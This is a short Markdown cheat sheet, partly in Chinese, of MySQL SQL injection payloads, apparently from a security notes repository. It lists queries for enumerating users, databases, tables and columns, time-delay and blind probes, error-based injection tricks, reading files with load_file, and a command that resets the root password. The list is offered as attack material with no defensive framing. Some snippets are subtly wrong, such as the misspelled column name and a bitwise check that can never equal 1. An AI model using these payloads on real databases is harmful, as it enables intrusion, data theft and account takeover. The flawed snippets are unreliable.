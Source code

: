 #### 2. MySQL Payload
##### 1. 常见Payload
- version
  - `SELECT @@version`
- Comment
  - `SELECT 1 -- comment`
  - `SELECT 1 # comment`
  - `SELECT /*comment*/1`
- Space
  - `0x9` `0xa-0xd` `0x20` `0xa0`
- Current User
  - `SELECT user()`
  - `SELECT system_user()`
- List User
  - `SELECT user FROM mysql.user`
- Current Database
  - `SELECT database()`
- List Database
  - `SELECT schema_name FROM information_schema.schemata`
- List Tables
  - `SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'`
- List Columns
  - `SELECT table_schema, table_name, colum_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'`
- If
  - `SELECT if(1=1,'foo','bar');` return 'foo'
- Ascii
  - `SELECT char(0x41)`
  - `SELECT ascii('A')`
  - `SELECT 0x414243` => return `ABC`
- Delay
  - `sleep(1)`
  - `SELECT BENCHMARK(1000000,MD5('A'))`
- Read File
  - `select @@datadir`
  - `select load_file('databasename/tablename.MYD')`
- Blind
  - `ascii(substring(str,pos,length)) & 32 = 1`
- Error Based
  - `select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;`
  - `select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2))`
- Change Password
  - `mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"`

###### 1. 报错注入常见函数
- extractvalue
- updatexml
- GeometryCollection
- linestring
- multilinestring
- multipoint
- multipolygon
- polygon
- exp 
